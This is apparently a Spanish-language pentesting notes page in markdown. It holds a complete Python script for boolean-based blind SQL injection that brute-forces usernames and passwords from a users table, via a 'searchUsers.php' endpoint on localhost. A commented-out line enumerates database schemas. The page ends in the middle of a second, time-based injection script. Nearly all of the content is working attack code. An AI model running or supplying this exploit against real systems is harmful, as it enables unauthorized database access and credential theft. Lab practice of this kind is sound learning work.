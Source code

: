 * **SQL Conditional**: Parra este caso debemos de hacer el Script en Python3
```python
#!/usr/bin/python3

import requests
import signal
import sys
import time
import string
from pwn import *

def def_handler(sig, frame):
    print("\n\n[!] Saliendo...\n")
    sys.exit(1)
    
# Ctrl + c
signal.signal(signal.SIGINT, def_handler)

# Variables globales
main_url = "http://localhost/searchUsers.php"
characters = string.printable

def MakeSQLI():
    p1 = log.progress("Fuerza Bruta")
    p1.status("Iniciando fuerza bruta")
    time.sleep(2)
    p2 = log.progress("Datos extraidos")
    extrated_info = ""

    for position in range(1, 150):
        for character in range(33, 126): # El 9 de abajo es un valor que no existe
            sqli_url = main_url + "?id=9 or (select(select ascii(substring((select group_concat(username,0x3a,password) from users),%d,1)) from users where id = 1)=%d)" % (position, character)
#           sqli_url = main_url + "?id=9 or (select(select ascii(substring((select group_concat(schema_name) from information_schema.schemata),%d,1)) from users where id = 1)=%d)" % (position, character)
            p1.status(sqli_url)
            r = requests.get(sqli_url)
            if r.status_code == 200:
                extrated_info += chr(character)
                p2.status(extrated_info)
                break

if __name__ == '__main__':
    MakeSQLI()

```


* **SQL Time**: Parra este caso debemos de hacer el Script en Python3
```python 
#!/usr/bin/python3

import requests
import signal
import sys
import time
import string
from pwn import *

def def_handler(sig, frame):
    print("\n\n[!] Saliendo...\n")
    sys.exit(1)
    
# Ctrl + c
```